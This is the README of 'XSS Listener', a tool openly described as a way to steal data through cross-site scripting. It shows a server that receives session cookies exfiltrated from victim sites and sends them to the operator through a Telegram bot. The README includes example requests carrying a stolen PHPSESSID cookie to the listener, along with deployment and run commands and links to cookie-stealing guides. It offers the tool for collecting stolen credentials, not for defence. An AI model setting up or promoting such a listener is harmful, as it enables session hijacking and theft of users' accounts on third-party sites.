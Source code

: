 ![logo](https://cagatay.js.org/spider.png)

### 🕷️ XSS Listener is a penetration tool for easy to steal data with various XSS.

From now on, you do not need XSS listeners! XSS listener records the data you have stolen on the remote site in the database, and gives instant notification with telegram.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/cagataycali/xss-listener)

### 🕸️ Know-How Background

- [What is XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

- [Steal cookie with XSS without redirecting to another page](https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page)

- [TR | How to use XSS](https://canyoupwn.me/tr-how-to-use-xss/)

### 🕸️ Listener Usage

Listener accepts all HTTP methods with parameters, then save database. Example:

```
GET https://yourapp.com/?cookie=PHPSESSID=889c6594db2541db1666cefca7537373

or

POST https://yourapp.com/
Form: { cookie:'PHPSESSID=889c6594db2541db1666cefca7537373' }
```

### You will notify by telegram bot.

![output](https://cagatay.js.org/output.png)

### 🕸️ Detailed Usage

<details>

### 🕸️ List previous requests
<code>https://yourapp.com/list</code>

### 🕸️ Delete previous request by id
<code>https://yourapp.com/delete/[id]</code>

### 🕸️ Even you can use telegram

<code>/list</code>

<code>/delete [id]</code></details>

### 🕸️ Run local environment

In terminal,

```shell
git clone https://github.com/cagataycali/xss-listener.git; # Clone
cd xss-listener; # Change directory.
npm install; # Install dependencies.
# Fill bot token and user id.
TELEGRAM_TOKEN=[BOT TOKEN] TELEGRAM_USER_ID=[USER ID] node index.js
```

### License

MIT © [Çağatay Çalı](https://cagatay.me)

